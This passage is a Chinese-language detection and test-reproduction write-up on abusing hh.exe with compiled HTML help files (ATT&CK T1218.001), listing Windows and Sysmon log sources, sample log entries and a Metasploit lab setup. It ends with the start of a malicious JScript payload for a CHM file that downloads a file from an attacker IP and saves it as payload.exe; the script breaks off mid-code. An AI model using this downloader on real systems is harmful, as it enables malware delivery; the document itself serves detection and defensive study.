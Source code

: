 ### 数据来源
- Windows安全日志：
  - 事件ID 4688：进程创建，记录`hh.exe`的执行信息。
- Sysmon日志：
  - 事件ID 1：进程创建，包含命令行、哈希值和父进程。
  - 事件ID 7：映像加载，记录加载的DLL（如`mshtml.dll`）。
  - 事件ID 10：进程访问，可能涉及`hh.exe`调用子进程。
- 文件监控：
  - 检测非系统路径下的CHM文件。
- 网络监控：
  - 检测`hh.exe`引发的异常网络连接（如反弹Shell）。

### 日志示例
- 事件ID 4688示例：
  ```
  进程信息:
    新进程名称:C:\Windows\hh.exe
    命令行:hh.exe C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1218.001\src\T1218.001.chm
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
- Sysmon事件ID 1示例：
  ```
  事件ID:1
  OriginalFileName:HH.exe
  CommandLine:hh.exe C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1218.001\src\T1218.001.chm
  CurrentDirectory:C:\Users\zhuli\
  User:QAX\zhuli
  Hashes:SHA1=4B1E2F8EFBECB677080DBB26876311D9E06C5020
  ParentImage:C:\Windows\System32\cmd.exe
  ```

## 测试复现

### 环境准备
- 攻击机：Kali Linux 2019（或其他支持Metasploit的系统）
- 靶机：Windows 7（或其他支持CHM的Windows系统）
- 工具：
  - Metasploit Framework（生成Payload和监听）
  - HTML Help Workshop（创建CHM文件）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 1.创建恶意CHM文件
1. **生成JScript Payload**：
   ```javascript
   <html>
   <head>
   <script language="JScript">
   function malicious() {
       var shell = new ActiveXObject("WScript.Shell");
       var client = new ActiveXObject("MSXML2.XMLHTTP");
       client.open("GET", "http://192.168.126.146:4444/payload", false);
       client.send();
       if (client.status == 200) {
           var stream = new ActiveXObject("ADODB.Stream");
           stream.Type = 1;
           stream.Open();
           stream.Write(client.responseBody);
           stream.SaveToFile("C:\\Temp\\payload.exe", 2);
   ```